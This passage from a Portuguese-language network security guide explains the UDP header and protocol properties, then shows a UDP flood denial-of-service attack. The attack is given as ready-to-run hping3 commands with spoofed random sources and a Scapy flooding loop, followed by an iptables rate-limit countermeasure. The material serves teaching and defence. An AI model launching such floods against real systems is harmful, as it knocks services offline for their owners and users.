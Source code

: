 
---

### UDP (User Datagram Protocol)

#### Especificação Técnica

**RFC**: RFC 768

**Características**:
- **Sem conexão** (connectionless)
- **Não confiável** (sem ACK, sem retransmissão)
- **Sem controle de fluxo**
- **Sem controle de congestionamento**
- **Baixa latência** e overhead mínimo
- **Preserva limites de mensagens**

**Uso**: DNS, DHCP, SNMP, VoIP, streaming, jogos online, QUIC

#### Estrutura do Cabeçalho UDP

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          Source Port          |       Destination Port        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|            Length             |           Checksum            |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Data (payload)                       |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

**Campos**:
- **Source Port** (16 bits): Porta de origem (opcional em UDP)
- **Destination Port** (16 bits): Porta de destino
- **Length** (16 bits): Tamanho total (cabeçalho + dados), mínimo 8 bytes
- **Checksum** (16 bits): Verificação de integridade (opcional em IPv4, obrigatório em IPv6)

#### Vulnerabilidades e Ataques

**1. UDP Flood (DoS)**

Inundação de pacotes UDP para esgotar recursos.

```bash
# hping3 - UDP flood
sudo hping3 --udp -p 53 --flood --rand-source target.com

# Flood UDP com payload grande
sudo hping3 --udp -p 80 --data 1400 --flood target.com

# Scapy
from scapy.all import *
target = "192.168.1.100"
port = 53

for i in range(10000):
    ip = IP(src=RandIP(), dst=target)
    udp = UDP(sport=RandShort(), dport=port)
    payload = Raw(load="A"*1000)
    send(ip/udp/payload, verbose=0)

# Contramedida: Rate limiting
sudo iptables -A INPUT -p udp -m limit \
    --limit 10/s --limit-burst 20 -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP
```
